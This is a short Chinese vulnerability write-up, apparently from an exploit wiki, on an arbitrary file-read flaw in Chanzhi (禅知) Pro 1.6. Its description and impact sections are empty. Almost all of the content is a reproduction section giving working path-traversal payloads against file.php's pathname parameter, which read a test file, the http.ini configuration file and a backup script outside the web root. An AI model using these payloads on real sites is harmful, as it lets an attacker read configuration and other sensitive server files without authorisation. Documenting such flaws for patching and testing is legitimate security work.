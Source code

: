 禅知 Pro 1.6 前台任意文件读取
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在网站根目录C:\\xampp\\chanzhi\\www新建一个测试文件test.php

![](./.resource/禅知Pro1.6前台任意文件读取/media/rId24.png)

执行payload查看文件内容：

    http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source

![](./.resource/禅知Pro1.6前台任意文件读取/media/rId25.png)

执行payload来查看程序的配置文件：

    http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source

![](./.resource/禅知Pro1.6前台任意文件读取/media/rId26.png)

跨目录读取文件（前提是有目录权限）：

    http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source
